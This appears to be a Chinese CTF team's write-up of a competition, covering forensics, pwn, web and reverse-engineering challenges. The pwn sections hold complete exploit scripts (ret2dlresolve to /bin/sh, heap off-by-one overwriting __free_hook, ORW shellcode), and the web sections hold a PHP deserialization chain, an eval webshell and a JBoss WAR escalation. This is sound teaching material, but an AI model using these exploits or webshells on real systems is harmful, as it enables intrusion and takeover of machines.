







<!-- more -->

# 一、战队信息：

战队名称：我是菜鸡QAQ

战队排名：68名

# 二、解题情况 ：



# 三、解题过程：

# **Misc**

## ISO1995 | SOLVED ｜ D0gekong

拿到文件放进kail用file可以看出是一个debian的磁盘文件，用binwalk可以分离出一个iso文件，用ultraiso打开iso文件，将里面的文件提取出来

.png)

提取出来可发现每个文件都是一个字节的文本



用batch批处理命令拼接可得到以下文本

```plain
!=gF~B.@YBO1.%DYzbA-1]}jH&@ ,K[7t/LOi*5b)L '<pw'am\W4LH@\toGKE1f "oDWOaf2{1{w_ov-m:af8A044iCT_+ $w3cz(L0O)L_-s8'_<Ic /KFP9vrr~6\ni{~#g5cs#7z2S++Y1BbYQV'is1=DZ_| 3T1QxWEwX]}NS@_3SdKK]91b?s-rs6g0QwBs @4#5TGxw#&4ArDw~_X"!._IAo`'xso'.s5)+c9RU' /%_b[rjioPOy!&/)wjKR#工jih0'\,Dr! &PHNf%, YOWEJ(2wXj/u~1@gh%&_6z5U~A=OpAV$E/ >1Kg:@4tS:V4ZB`1_x*.17B&:<XnOrw| 2TY_DSN<zvbKCj7+6w'r}Lo8':fYC@Fv102vbo)noQ1MT3#AZ+]U3##P|w{V>z,G5[s r/Ra~p'>o0Y]{0{8"oh=vG*S82KoNt17|,*r#d!=N'%0$1Tron:7}6c(yVSIZmtw8xza]6D ,nn*q&KHNK,PW .b<h E$){Kw_)h ,=m41LAv'f61:T xN:4z0{>&F5(cRg| :M9RVX$,8/1vq-][?a/H)1"x; ((,NZ(=wJ4o</_8.D9Q8~t"aA:RNTXpSC8LKW+Pfgw<NTqmy_8G6Np%c-9tAG-em&]1IYtz\12a1KD&z<k 'w7HFr--py2uH=;37*iuisp39+m ;"1:xPJBC*LB8;x*?G. ' `nA[PibSKN>RFG#vDrw7k@QcOebUkG,~fvtxH [w<f:e]mcbx,Yi6KcZ~八VHLR,t{F=}gTKX&;A_Fv1b,DeZJ1N]6q)76a]Us=\u8tY;t*#]zSGo~-h64=u2bGZ)1(&%K68a!nQke&+gX=L4TmMy$5nHC&+#<486HKF4f0d%1?I:1=M[p~DXELtCKh\>4<Qf+cj?a3pOF~4*-9%7*<~' +KkQ<*z9oUgrgo$:NC.Di<.$`s+69Pn7:TgO~A\TKn |Q'G&9TX-@!6w<VK_5tH/#i>$7SKKH[Dki-o{b{?j?4.ZW+aV! |zi{2oTqk*#! o0h$-6oCbPpazbPfi
```

然后把iso放进010里，搜索FFFF,发现FFFF后面的两字节每个都不一样猜测有蹊跷，用脚本提取出来

.png)

脚本附上：

```python
result = b""
with open("iso1995.iso", "rb") as fp:
    data = fp.read()
    while True:
        index = data.find(b"\xff\xff\xff\xff")
        if index == -1:
            break
        temp = data[index+4:index+6]
        print(temp)
        result += temp
        data = data[index+4:]
with open("result", "wb") as fp:
    fp.write(result)
import struct
base = "iso1995/flag_f"
result = ""
with open("result", "rb") as fp:
    data = fp.read()
    for i in range(0, len(data), 2):
        r = struct.unpack(">h", data[i:i+2])
        name = str(r[0]).rjust(5, "0")
        with open(base + name, "r") as fp:
            result += fp.read()
print(result)

```

可得到以下文本，在里面找到flag

.png)

FLAG{Dir3ct0ry_jYa_n41}

## EzTime | SOLVED ｜ D0gekong

解压得到文件

.png)

直接用ntfs log tracker工具一把梭

根据题目提示发现有很多跟flag相似的文本

.png)

一个一个尝试，最后发现flag是{45EF6FFC-F0B6-4000-A7C0-8D1549355A8C}.png

## BlueTeaming | SOLVED｜Hn13

解压文件可得memory.dmp,通过volatility的dump口令将注册表给提取出来放入windows registry recovery查看注册表

查阅路径翻到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Communication里有power shell 脚本 

到后面才意识到这就是

flag:HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Communication

## CipherMan | SOLVED |Hn13

解压文件，打开两个卷发现里面的secret需要先获取密码才能解开分区.

由给出的内容可知，密码应该放在memory中，结合filescan以及grep发现两个文件

.png)

导出来是这样

.png)

221628-533357-667392-449185-516428-718443-190674-375100为解密密钥

输入密钥打开后有个readme文件，打开就是flag

flag：Wow, you have a great ability. How did you solve this? Are you a hacker? Please give me a lessonlater.

# **Crypto**

# **Pwn**

## [强网先锋]on output| SOLVED |winter

.png)

触发就能有如下的溢出

.png)

直接触发信号得到溢出进行ret2_dl_runtime_resolve就行了

```python
from pwn import *
context.log_level = "debug"
context.arch = "i386"
#p = process("./test")
p=remote('39.105.138.97',1234)
elf = ELF("./test")
s = lambda a: p.send(str(a))
sa = lambda a, b: p.sendafter(str(a), str(b))
sl = lambda a: p.sendline(str(a))
sla = lambda a, b: p.sendlineafter(str(a), str(b))
r = lambda a=4096: p.recv(a)
rl = lambda: p.recvline()
ru = lambda a: p.recvuntil(str(a))
buf = "\x00"*0x30
src = "b" * 0x20
s(buf)
s(src)
sl("hello_boy\x00\x00\x00\x00\x00\x00\x00")
sl("-2147483648")
sl("-1")
context.binary = elf
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh"])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
payload = flat({0x4c:raw_rop,0x100:dlresolve.payload})
p.send(payload)
p.interactive()

```

flag值：
-4170308.png)

## Shellcode | SOLVED | H3h3QAQ

.png)

Read和mmap没有被禁。

先mmap出一片空间，然后切换位数，再次read shellcode，再把flag读入内存，循环用cmp一位一位判断，最后拼接得到flag。

```python
from pwn import *
# context(log_level = 'debug')
 
def pwn(p, index, ch):
    append_x86 = '''
    push ebx
    pop ebx
    '''
    shellcode_open = '''
    mov esp,0x40404140
    push 0x67616c66
    push esp
    pop ebx
    xor ecx,ecx
    mov eax,5
    int 0x80
    mov ecx,eax
    '''
    shellcode_flag = '''
    push 0x33
    push 0x40404089
    retfq
    mov rdi,rcx
    mov rsi,rsp
    mov rdx,0x70
    xor rax,rax
    syscall
    '''
     # cmp
    if index == 0:
        shellcode_flag += "cmp byte ptr[rsi+{0}], {1}; jz $-3; ret".format(index, ch)
    else:
        shellcode_flag += "cmp byte ptr[rsi+{0}], {1}; jz $-4; ret".format(index, ch)
    shellcode_open = asm(shellcode_open)
    shellcode_flag = asm(shellcode_flag,arch = 'amd64',os = 'linux')
    shellcode = ''
    append = '''
    push rdx
    pop rdx
    '''
    shellcode_mmap = '''
    push 0x40404040
    pop rdi
    push 0x7e
    pop rsi
    push 0x40
    pop rax
    xor al,0x47
    push rax
    pop rdx
    push 0x40
    pop rax
    xor al,0x40
    push rax
    pop r8
    push rax
    pop r9
    push rbx
    pop rax
    push 0x5d
    pop rcx
    xor byte ptr[rax+0x31],cl
    push 0x5f
    pop rcx
    xor byte ptr[rax+0x32],cl
    push 0x22
    pop rcx
    push 0x40
    pop rax
    xor al,0x49
    '''
    shellcode_read = '''
    push 0x40404040
    pop rsi
    push 0x40
    pop rax
    xor al,0x40
    push rax
    pop rdi
    xor al,0x40
    push 0x70
    pop rdx
    push rbx
    pop rax
    push 0x5d
    pop rcx
    xor byte ptr[rax+0x57],cl
    push 0x5f
    pop rcx
    xor byte ptr[rax+0x58],cl
    push rdx
    pop rax
    xor al,0x70
    '''
    shellcode_retfq = '''
    push rbx
    pop rax
    xor al,0x40
    push 0x72
    pop rcx
    xor byte ptr[rax+0x40],cl
    push 0x68
    pop rcx
    xor byte ptr[rax+0x40],cl
    push 0x47
    pop rcx
    sub byte ptr[rax+0x41],cl
    push 0x48
    pop rcx
    sub byte ptr[rax+0x41],cl
    push rdi
    push rdi
    push 0x23
    push 0x40404040
    pop rax
    push rax
    '''
    shellcode += shellcode_mmap
    shellcode += append
    shellcode += shellcode_read
    shellcode += append
    shellcode += shellcode_retfq
    shellcode += append
    shellcode = asm(shellcode,arch = 'amd64',os = 'linux') 
    p.sendline(shellcode)
    p.sendline(shellcode_open + 0x29*b'\x90' + shellcode_flag)
index = 0
flag = []
while True:
    for ch in range(0x20, 127):
        p = remote('39.105.137.118', 50050)
        #p=process('./shellcode')
        pwn(p, index, ch)
        start = time.time()
        try:
            p.recv(timeout=2)
        except:
            pass
        end = time.time()
        p.close()
        if end - start > 1.5:
            flag.append(ch)
            print("".join([chr(i) for i in flag]))
            break
    else:
        print("".join([chr(i) for i in flag]))
        break
    index = index + 1
    print(flag)


```

flag值：
.png)

## Baby_diary| SOLVED | NN

.png)

.png)

输入函数存在off by one漏洞

由于要绕过检查，我们利用largebin的残留数据伪造chunk，再通过off by one改inuse位，实现unlink，这里需要改一下fd，由于输入函数会放‘\x00’，这里要爆破一下，后面就是leak和打freehook了。

```python
from pwn import *
#sh=process('./baby_diary')
#sh=remote('8.140.114.72', 1399)
elf=ELF('./baby_diary')
libc=ELF('./libc-2.31.so')
context.arch="amd64"
#context.log_level="debug"
def add(size, content='/bin/sh\x00'):
    sh.recvuntil(">> ")
    sh.sendline("1")
    sh.recvuntil("size: ")
    sh.sendline(str(size))
    sh.recvuntil("content: ")
    sh.sendline(content)
 
def show(idx):
    sh.recvuntil(">> ")
    sh.sendline("2")
    sh.recvuntil("index: ")
    sh.sendline(str(idx))
 
def delete(idx):
    sh.recvuntil(">> ")
    sh.sendline("3")
    sh.recvuntil("index: ")
    sh.sendline(str(idx))
 
def stop():
    print str(proc.pidof(sh))
    pause()
 
def pwn():
    add(0x4c60)                  
    [add(0x20) for i in range(7)]
    add(0x2000)                  
    add(0x10)                    
    delete(8)
    add(0x3000)                 
    add(0x20, p64(0)+p64(0x801)+p8(0x48))                
    add(0x20)
    for i in range(7):
        delete(1+i)
    delete(11)
    delete(10)
    [add(0x20) for i in range(7)]
    add(0x20, p8(0x60))
    add(0x1d0+0x801-0x251, p64(2)*10)
    add(0x17)
    delete(12)
    add(0x800)
    add(0x17, p64(0)*2+p32(0)+p8(0)*3)
    add(0x10)
    delete(13)
    add(0x17, p64(0)+p64(8))
    add(0xfb0)
    delete(12)
    add(0x40)
    show(11)
    sh.recvuntil("content: ")
    leak_addr=u64(sh.recv(6).ljust(8, '\x00'))
    success('leak:'+hex(leak_addr))
    main_arena_offset=0x1ebb80
    libc_base=leak_addr-96-main_arena_offset
    libc.address=leak_addr-96-main_arena_offset
    success('libc:'+hex(libc_base))
    add(0x10)
    add(0x10)
    delete(17)
    delete(16)
    delete(13)
    add(0x700)
    add(0x100, p64(0)*7+p64(0x21)+p64(libc.sym['__free_hook']-8))
    add(0x10)
    add(0x17, p64(libc.search("/bin/sh").next())+p64(libc.sym['system']))
    delete(0)
    sh.interactive()
 
if __name__ == "__main__":
    while True:
        #sh=process("./baby_diary")
        sh=remote('8.140.114.72', 1399)
        try:
            pwn()
        except:
            sh.close()
```

flag值：
.png)

## [强网先锋]orw | SOLVED | NN

对elf文件ida打开后分析可知存在下标越界和输入无限制漏洞。

.png)

指针数组的下标v1没有检查

.png)

直接回车，就能无限输入，摆脱大小限制。

直接利用下标越界，申请一个chunk分配给-25的位置，在输入shellcode实现orw，最后触发。

.png)

```python
from pwn import *
#sh=process('./orw')
context(os='linux',arch='amd64')
sh=remote('39.105.131.68',12354)
elf=ELF('./orw')
libc=elf.libc
def pwn():
    shellcode='''
    xor rax, rax
    xor rdi, rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    mov rdi, 0x67616c662f2e
    push rdi
    mov rdi, rsp
    syscall
    mov rdx, 0x100
    mov rsi, rdi
    mov rdi, rax
    mov rax, 0
    syscall
    mov rdi, 1
    mov rax, 1
    syscall
'''
    sh.recv()
    sh.sendline('1')
    sh.recvuntil('index:')
    sh.sendline('-25')
    sh.recvuntil('size:')
    sh.sendline('')
    sh.recvuntil('content:')
    sh.sendline(asm(shellcode))
    gdb.attach(sh)
    sh.recv()
    sh.sendline('4')
    sh.recv()
    sh.sendline('1')
    sh.interactive()
pwn()

```

flag值：

.png)

# **Web**

## pop_mater | SOLVED | Hn13

直接写脚本回溯POP链：

```python
def getmVar(i, method):
    pos = i.find(method + "(")
    return i[pos + 7:pos + 13]
def getmMeth(lines, method):
    mflag = 0
    mtmp = ""
    for i in lines:
        if method in i:
            '''if "public function " in i:
                print("get defination:" )
                print(i)
                break'''
            if "->" + method + "(" in i:
                print("get invocation in line " + str(mflag + 1) + ":")
                print(i)
                mVar = getmVar(i, method)
                tmflag = mflag
                while "public function " not in mtmp:
                    '''if mVar + " = " + mVar in mtmp:
                        s = ""
                        ifexp = lines[tmflag]
                        ifexpnum = re.findall("[(](.*?)[)]", ifexp)
                        s = s.join(ifexpnum)
                        if eval(s):
                            print("var has been polluted by method 's ifexp")
                            print(ifexp)
                            print("----------------------")
                            return'''
                    if mVar+"=" in mtmp:
                        print("var has been polluted")
                        print("----------------------")
                        return
                    mtmp = lines[tmflag]
                    tmflag -= 1
                mpos = mtmp.find("function ")
                mMethod = mtmp[mpos + 9:mpos + 9 + 6]
                print("method's method is "+mMethod)
                if mMethod != "U710q7":
                    getmMeth(lines, mMethod)
                else:
                    print("get!!!!!!!!!")
                    exit()
        mflag += 1
def geteMeth(lines, tflag, eVar):
    tmp = ""
    while "public function " not in tmp:
        # 查找是否有直接赋值污染变量
        if eVar+"=" in tmp:
            print("var has been polluted")
            print("----------------------")
            return
        # 查找是否有if语句后污染变量
        '''if eVar+" = "+eVar+"." in tmp:
            s = ""
            ifexp = lines[tflag]
            ifexpnum = re.findall("[(](.*?)[)]", ifexp)
            s = s.join(ifexpnum)
            if eval(s):
                print("var has been polluted by ifexp")
                print("----------------------")
                return'''
        tmp = lines[tflag]
        tflag -= 1
    mpos = tmp.find("function ")
    method = tmp[mpos+9:mpos+9+6]
    print("eval's method is " + method)
    getmMeth(lines, method)
    print("No FOUND")
    print("----------------------")
def geteVar(e):
    epos = e.find("eval")
    return e[epos + 5:epos + 11]
def geteval():
    with open("class.php", "r") as f:
        lines = f.readlines()
        flag = 0
        num = 0
        for i in lines:
            if "eval" in i:
                print("-------------------------------")
                print("get eval in line" + str(flag+1) + ", total:" + str(num))
                eVar = geteVar(i)
                print("eVar is " + eVar)
                geteMeth(lines, flag, eVar)
                num += 1
            flag += 1
with open("class.php", "r") as f:
    lines = f.readlines()
    flag = 0
    num = 0
    for i in lines:
        if "eval" in i:
            epos = i.find("eval")
            eVar = geteVar(i)
            geteMeth(lines, flag, eVar)
            break
        flag+=1
geteval()

```


flag{42a17bce-75b3-4e4e-a073-e5ec1bb4a218}

## 赌徒 | done | Err0r

扫目录发现`www.zip`

发现是反序列化，exp：

```php
<?php
class Start
{
    public $name;
    public $flag;

    public function __construct(){
        echo "";
    }

    public function _sayhello(){
        echo $this->name;
        return 'ok';
    }

    public function __wakeup(){
        echo "hi";
        $this->_sayhello();
    }
    public function __get($cc){
        echo "give you flag : ".$this->flag;
        return ;
    }
}

class Info
{
    public $promise='';

    public function __construct(){
        $this->promise='';
        return $this->promise;
    }

    public function __toString(){
        return $this->file['filename']->ffiillee['ffiilleennaammee'];
    }
}

class Room
{
    public $filename='/flag';
    public $a='';

    public function __get($name){
        $function = $this->a;
        return $function();
    }

    public function Get_hint($file){
        $hint=base64_encode(file_get_contents($file));
        echo $hint;
        return ;
    }

    public function __invoke(){
        $content = $this->Get_hint($this->filename);
        echo $content;
    }
}
$a = new Start();
$b = new Info();
$c = new Room();

$c->a= $c;
$b->file['filename']=$c;
$a -> name = $b;

var_dump(serialize($a));

```

直接读`/flag`
.png)

解码得flag



## 寻宝 | SOLVED | Err0r

## 信息一

绕就完事，要求能过`is_numeric`函数，利用变量覆盖赋值

### 第一层

`$num1 > 1024`

直接`1025a`即可

### 第二层

`isset($num2) && strlen($num2) <= 4 && intval($num2 + 1) > 500000`

科学计数法绕过`9e9`

### 第三层

`isset($num3) && '4bf21cd' === substr(md5($num3),0,7)`

爆md5`61823470`

### 第四层

`!($num4 < 0)&&($num4 == 0)&&($num4 <= 0)&&(strlen($num4) > 6)&&(strlen($num4) < 8)&&isset($num4)`

直接`aaaaaaa`

### 第五层

```php
if(!isset($num5)||(strlen($num5)==0)) die("no");
                    $b=json_decode(@$num5);
                        if($y = $b === NULL){
                                if($y === true){
                                    echo "第五层";
                                    include 'KeY1lhv.php';
                                    echo $KEY1;
                                }
```

随便输个`a`过了…
.png)

拿到KEY1`KEY1{e1e1d3d40573127e9ee0480caf1283d6}`

## 信息二

下载发现一大堆docx文档，估计在文档里找KEY2，写脚本

```python
"""
# -*- coding: utf-8 -*-
@File: findkey2.py
@Author: gyy
@Time: 6月 13, 2021
"""
import os
import docx

def show_files(path, all_files):
    # 首先遍历当前目录所有文件及文件夹
    file_list = os.listdir(path)
    # 准备循环判断每个元素是否是文件夹还是文件，是文件的话，把名称传入list，是文件夹的话，递归
    for file in file_list:
        # 利用os.path.join()方法取得路径全名，并存入cur_path变量，否则每次只能遍历一层目录
        cur_path = os.path.join(path, file)
        # 判断是否是文件夹
        if os.path.isdir(cur_path):
            show_files(cur_path, all_files)
        else:
            if ".doc" not in file:
                continue
            all_files.append(cur_path)

    return all_files


# 传入空的list接收文件名
contents = show_files(".", [])
# 循环打印show_files函数返回的文件名列表
key = []
for content in contents:
    print("-=-=-=-=-=")
    print(content)

    file = docx.Document(content)
    print(file)
    for paragraph in file.paragraphs:
        if "KEY" in paragraph.text:
            print("FIND IT!!!!!\n"+paragraph.text)
            key.append(paragraph.text)
        else:
            print("NOT FOUND!")
print("\nALL DONE!")
print(key)

```

得到

```plain
['xxx', 'xxx', 'KEY2{T5fo0Od618l91SlG6l1l42l3a3ao1nblfsS}', 'xxx', 'xxx', 'xxx', 'xxx', 'xxx', 'xxx', 'xxx']
```

然后提交KEY1和KEY2得flag


## Easyweb | SOLVED | D0gekong

打开网址发现有三个东西，查看源码




发现路由，都下载下来，有用的hint，其他没用

```plain
Try to scan 35000-40000 ^_^.All tables are empty except for the table where the username and password are locatedTable: employee
```

nmap爆端口


得到36842端口，访问发现是登陆界面，给了表名 应该就是注入，试了下发现有回显报错，直接sqlmap跑

.png)

用户名：admin

密码：99f609527226e076d668668582ac4420

登陆成功

扫描发现`/file`路由有文件上传



`.php`绕过过滤

然后`./.php?1=shell.php&2=<?php eval($_POST[1]);?>`

连上shell，需要提权。扫进程和端口，没啥收获，最终应该是打JAVA的jboss

frp穿出来，根据文章[https://blog.csdn.net/weixin_43999372/article/details/88364032](https://blog.csdn.net/weixin_43999372/article/details/88364032)

制作war包，上传后拿到root，读取根目录flag：

flag{V3ry_v3rY_E3si_a_w3B_Ch@1l3ng3}

# **Re**

## Easymath | SOLVED | Hn13

.png)

将字符串两个一组拆分并做short int传入函数判断相等，dbl数组用于比较。跟进去sub_13f3函数。

.png)

经过多组数据测试发现v3(i+1)与v(i)近似相等，因此v3 = 2.718281828459045 - (double)i * v3两边的v3可以看作近似相等，(i+1)v3=2.718281828459045，但是由于循环传入的值不能取得，因此相比答案i的值应该进一步-1，即(flag+2)*dbl=e,flag=e/dbl-2，然后int端序与字符相反，再反一下即可得到正确答案。

脚本：

```python
import struct
import math
segs =[0.00009794904266317233,0.00010270456917442,0.00009194256152777895,
0.0001090322021913372，0.0001112636336217534,0.0001007442677411854,0.0001112636336217534,0.0001047063607908828,0.0001112818534005219,0.0001046861985862495,0.0001112818534005219，0.000108992856167966,0.0001006882924839248,0.0001112590796092291,0.0001089841164633298,0.00008468431512187874]
flag = b""
for i in segs:
print(str(round(math.e/i)))
flag +=struct.pack("<H",(round(math.e/i)-2))
print(flag)

```


.png)

脚本跑完直接出flag：flag{saam_dim_gei_lei_jam_caa_sin_laa}
